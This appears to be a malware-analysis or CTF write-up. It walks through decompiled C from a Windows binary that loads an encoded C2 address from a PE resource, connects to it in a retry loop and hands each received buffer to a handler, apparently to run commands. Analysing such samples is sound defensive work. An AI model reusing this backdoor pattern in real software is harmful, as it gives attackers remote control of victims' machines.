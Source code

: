 ```c
        v15 = socket(2, 1, 6);
        while ( connect(v15, &hKey, 16) == -1 )
          ;
        *((_QWORD *)&xmmword_140008730 + 1) = v15;
        v16 = malloc(0x400ui64);
        memset(v16, 0, 0x400ui64);
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
        v17 = "Socket closed gracefully.";
```

First, let's analyze it segment by segment:

```c
      ModuleHandleW = GetModuleHandleW(0i64);
      v5 = GetModuleHandleW(0i64);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)
        && (v10 = LockResource(Resource)) != 0i64
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
```

By consulting relevant API documentation and function prototypes, we know this code reads the `CONFIG` data from the `DATA` section in the PE file's resources, stores it in `v10`, stores the data length in `v8`, and validates its size is at least `0x42`.

Then, it allocates a new buffer `v11` of that size and copies the data from `v10` into `v11`.

Subsequently, it calls an unknown function `sub_140001750` passing `v11` and `v8`, and then assigns `v11` to `cp`.

```c
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```

From this part, we can see that `cp` is actually used as the target address for the socket connection, so we need to extract it first:

![Snipaste_2025-04-01_13-20-27](./img/Snipaste_2025-04-01_13-20-27.png)
